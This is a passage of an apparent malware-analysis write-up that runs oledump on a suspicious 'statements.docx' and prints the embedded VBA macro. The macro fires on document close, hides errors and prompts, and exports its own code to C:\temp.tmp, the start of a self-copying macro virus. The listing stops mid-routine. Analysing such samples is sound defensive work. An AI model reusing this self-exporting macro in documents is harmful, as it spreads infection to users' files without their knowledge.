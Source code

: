 |Max File Size in FAT    |66048.0         |Max file size covered by FAT       |
|Extra data beyond FAT   |0               |Only if file is larger than FAT    |
|                        |                |coverage                           |
|Extra data offset in FAT|00006E00        |Offset of the 1st free sector at   |
|                        |                |end of FAT                         |
|Extra data size         |0               |Size of data starting at the 1st   |
|                        |                |free sector at end of FAT          |
+------------------------+----------------+-----------------------------------+
{% endhighlight %}

### statements.docx notes

#### `oledump statements.docx`

{% highlight vb linenos %}
C:\Users\vagrant\Desktop\work>oledump statements.docx
A: word/vbaProject.bin
 A1:       372 'PROJECT'
 A2:        41 'PROJECTwm'
 A3: M    7636 'VBA/ThisDocument'
 A4:      2769 'VBA/_VBA_PROJECT'
 A5:      1093 'VBA/__SRP_0'
 A6:        98 'VBA/__SRP_1'
 A7:       216 'VBA/__SRP_2'
 A8:        66 'VBA/__SRP_3'
 A9:       479 'VBA/dir'
{% endhighlight %}

#### oledump statements.docx -s A3 -v

{% highlight vb linenos %}
PS C:\Users\vagrant\Desktop\work> oledump statements.docx -s A3 -v
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "0{00020906-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
'RELAX
Private Sub RELAX2()
End
End Sub

Private Sub ComboBox1_Change()

End Sub

Private Sub Document_Close()
Call GOODSub
Call RELAX2
End Sub

Private Sub GOODSub()
On Error Resume Next
Application.ScreenUpdating = False
Application.Options.SaveNormalPrompt = False
x$ = "C:\temp.tmp"
MacroContainer.VBProject.vbcomponents.Item("ThisDocument").Export x$
Open x$ For Input As #1